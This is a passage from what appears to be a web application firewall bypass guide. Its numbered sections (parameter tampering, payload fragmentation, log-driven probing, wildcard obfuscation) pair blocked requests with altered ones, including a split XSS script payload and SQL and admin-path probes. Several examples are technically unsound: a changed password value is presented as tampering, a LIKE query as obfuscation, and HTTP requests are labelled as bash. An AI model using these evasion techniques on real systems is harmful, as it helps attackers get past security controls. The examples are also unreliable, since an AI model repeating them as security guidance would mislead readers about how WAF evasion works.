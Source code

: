 **Blocked original request:**
```bash
POST /login HTTP/1.1
username=admin&password=123456
```

**Updated with parameter tampering:**
```bash
POST /login HTTP/1.1
username=admin&password=wrong_password
```

## 12. Payload Fragmentation

**How to do it:**  
Split the payload across multiple requests or packets to avoid detection by the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with payload fragmentation:**
```bash
<script>aler
t('XSS')</script>
```

## 13. Testing and Logging Analysis

**How to do it:**  
Analyze WAF logs and responses to identify which payloads are being blocked and adjust accordingly.

**Blocked original request:**
```bash
GET /admin HTTP/1.1
```

**Updated based on log analysis:**
```bash
GET /admin.php HTTP/1.1
```

## 14. Wildcard Obfuscation

**How to do it:**  
Use wildcard characters in a way that confuses the WAF's pattern matching.

**Blocked original request:**
```bash
SELECT * FROM users WHERE username='admin';
```

**Updated with wildcard obfuscation:**
```bash
SELECT * FROM users WHERE username LIKE 'adm%';
```
